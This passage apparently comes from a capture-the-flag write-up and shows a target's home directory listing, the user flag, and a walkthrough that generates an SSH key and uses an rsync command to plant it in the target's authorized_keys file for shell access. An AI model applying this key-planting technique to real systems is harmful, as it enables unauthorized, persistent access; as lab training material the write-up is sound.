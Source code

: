 ```
drwx------  5 kali kali 4096 Feb  1  2021 .mozilla
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Music
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Pictures
-rw-r--r--  1 kali kali  807 Feb  1  2021 .profile
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Public
lrwxrwxrwx  1 kali kali    9 Feb  2  2021 .rediscli_history -> /dev/null
drwxrwxr-x  2 kali kali 4096 Feb  6  2021 .ssh
-rw-r--r--  1 kali kali    0 Feb  1  2021 .sudo_as_admin_successful
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Templates
drwx------  4 kali kali 4096 Feb  2  2021 .thumbnails
-rw-------  1 kali kali   38 Feb  6  2021 user.txt
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Videos
-rw-------  1 kali kali   61 Feb  6  2021 .Xauthority
-rw-r--r--  1 kali kali   14 Feb 12  2018 .xscreensaver
-rw-------  1 kali kali 2546 Feb  6  2021 .xsession-errors
-rw-------  1 kali kali 2546 Feb  6  2021 .xsession-errors.old
```

We have our user.txt flag, so that's 3 of the 4 down.

Right away the .ssh sticks out to me but I take a look at what's out there with a `tree -a` command and don't see much of interest.

Rsync should allow us to upload a file, which means we can upload a ssh key to the .ssh directory and then connect over.

To do this you need a ssh key pair which can be created with `ssh-keygen -t rsa`.

Once you have that you can copy the id_rsa.pub file over to authorized_keys by changing over to ~/.ssh and then:

`cat id_rsa.pub >> authorized_keys`

I then create a directory and move the authorized_keys file over to it, and then change to the directory.

With that done I run the following command to send our file to the server:

`rsync -av . rsync://rsync-connect@$ip:873/files/sys-internal/.ssh`

```
Password: 
sending incremental file list
./
authorized_keys

sent 699 bytes  received 38 bytes  77.58 bytes/sec
total size is 563  speedup is 0.76
```

<br>

## System Access

Ok we have everything in place, let's try and connect over.

